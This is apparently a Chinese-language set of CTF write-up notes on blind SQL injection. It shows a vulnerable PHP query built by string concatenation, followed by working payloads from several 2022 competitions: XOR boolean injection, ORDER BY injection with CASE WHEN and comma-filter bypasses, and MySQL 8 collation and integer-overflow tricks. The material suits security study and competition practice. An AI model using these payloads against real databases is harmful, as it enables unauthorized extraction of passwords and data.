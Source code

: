 存在下面代码。很明显的一个false注入

```php
 $sql = "select role from `user` where username ='".$username."'";
   $res = $conn ->query($sql);
   if($res->num_rows>0){
        echo "$username is ".$res->fetch_assoc()['role'];
   }else{
        die("Don't have this user!");
   }
```

这里的payload如下

```php
username = "admin'^!(mid((passwd)from(-{pos}))='{passwd}')='1"
```

这里的话感觉

```php
username="admin'^((ASCII(MID((passwd)FROM 2)))=111)^'1"  这样的话当中间的值为0的手整一个运行"aaa"^0^"aa"就是0，当中间值不为0的时候，"aaa"^0^"aa"就不是0
```

### 2022字节CTFdatamanager

发现 /dashboard 下可以 order by 注入，但是过滤了逗号，可以将 if()拆写成 case when then else end 的格式，配合笛卡尔积和 like 盲注。这里还用到了逗号的过滤技巧。上面都有写

用的到payload大致如下

```python
database_payload="case when (database() like binary {}25) then (select b.table_name from information_schema.tables a join information_schema.columns b order by 1 limit 1) else 1 end"
table_name_payload = "case when (select (select table_name from information_schema.tables where table_schema like 0x646174616d616e61676572 limit 1 offset 1) like binary {}25) then (select b.table_name from information_schema.tables a join information_schema.columns b order by 1 limit 1) else 1 end"
column_name_payload = "case when (select (select column_name from information_schema.columns where table_name like 0x7573657273 limit 1 offset 5) like binary {}25) then (select b.table_name from information_schema.tables a join information_schema.columns b order by 1 limit 1) else 1 end"
password_payload = "case when (select (select pas$worD from users where id like 0x31 limit 1 offset 0) like binary {}25) then (select b.table_name from information_schema.tables a join information_schema.columns b order by 1 limit 1) else 1 end"
```

### CISCN2022初赛ezpentest

```python
payload="0'||case'1'when`password`collate'utf8mb4_bin'like'{}%'then+9223372036854775807+1+''else'0'end||'"#这里过滤了取反，所以要用9223372036854775807+1这个也可以18446744073709551615+1来代替溢出
这里就是mysql8的小技巧，利用了utf8mb4_bin来区分大小写，代替binary
```

### 2022虎符CTFbabysql

```python
'username': "1'||case'1'when`password`regexp'^{}'collate'utf8mb4_0900_as_cs'then'1'else~0+1+''end||'1".format(username + i)
CISCN2022初赛ezpentest可以说就是改的这个题
```
